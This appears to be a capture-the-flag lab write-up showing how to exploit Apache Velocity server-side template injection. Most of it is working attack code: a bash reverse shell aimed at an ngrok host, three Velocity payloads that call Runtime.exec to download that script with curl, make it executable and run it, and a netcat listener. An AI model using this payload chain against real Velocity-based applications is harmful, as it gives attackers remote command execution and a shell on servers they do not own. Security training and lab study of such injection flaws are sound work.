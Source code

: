 Spawn the docker and below spawn button there is download file option download the resources.

Using velocity ssti:
https://iwconnect.com/apache-velocity-server-side-template-injection/


Attempting to exploit a potential vulnerability using Velocity Template Injection (VTI) in a web application that uses Apache Velocity as its template engine.

![[Pasted image 20240717173812.png]]

Before that start ngrok on any port.


Then make reverse shell using revshellgen as shown below.

![[Pasted image 20240717164830.png]]

then, nano test.sh and paste the below line on test.sh as shown below

```sh
#!/bin/bash

bash -i >& /dev/tcp/0.tcp.in.ngrok.io/14917 0>&1
```

And,
Start python http server on the port used for ngrok.
![[Pasted image 20240717164800.png]]

inject script on text = 
```java
text=#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("curl -o /tmp/test.sh http://0.tcp.in.ngrok.io:14917/test.sh"))
#set($null=$process.waitFor() )
```


Now after this, shell code is transferred to target host. So, we can stop python http server.

And then give executable permission to test.sh.


``` java
text=#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("chmod +x /tmp/test.sh"))
#set($null=$process.waitFor() )
```


Then run netcat on the ngrok port.
```cmd
nc -lnvp 4444
```

then run,
```java
text=#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("/tmp/test.sh"))
#set($null=$process.waitFor() )
```

It will execute the shell code and give access.


![[Pasted image 20240717172255.png]]

Used tools:
Burpsuite, Ngrok, ReverseshellGen, NetCat(nc), Python http server

Method: reverse shell